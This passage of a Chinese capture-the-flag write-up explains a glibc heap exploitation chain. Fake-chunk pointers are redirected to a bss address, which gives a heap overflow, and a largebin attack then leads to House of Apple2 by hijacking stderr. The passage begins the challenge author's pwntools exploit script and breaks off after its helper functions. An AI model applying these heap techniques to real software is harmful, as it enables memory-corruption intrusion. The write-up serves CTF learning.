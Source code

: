 再加上前面把fakechunk的fd、bk指针改成了储存堆块指针的bss段地址，此时再edit(0)便可对bss段进行修改

[![](assets/1702521085-bc0913d5691f850ffeadaad5457c65e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231046-77504832-9380-1.png)

在更改了大小后就可以进行堆溢出了

然后就是largebin attack走House of apple2即可

关于House of apple 的调用链这里不详细说明

想了解详细可以看笔者之前写的文章：[新型 IO 利用方法学习——House of apple2 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13092)

劫持的是stderr结构体

[![](assets/1702521085-09c9ff28ff0261662d831df227536668.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231000-5c11aaf2-9380-1.png)

放下出题人的exp：

```plain
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
libc = ELF('./libc.so.6')
flag = 1

if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./challenge")
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

def add(index,size,content):
    sla(b': ',b'1')
    sla(b': ',str(index).encode())
    sla(b': ',str(size).encode())
    sa(b': ',content)

def delete(index):
    sla(b': ',b'2')
```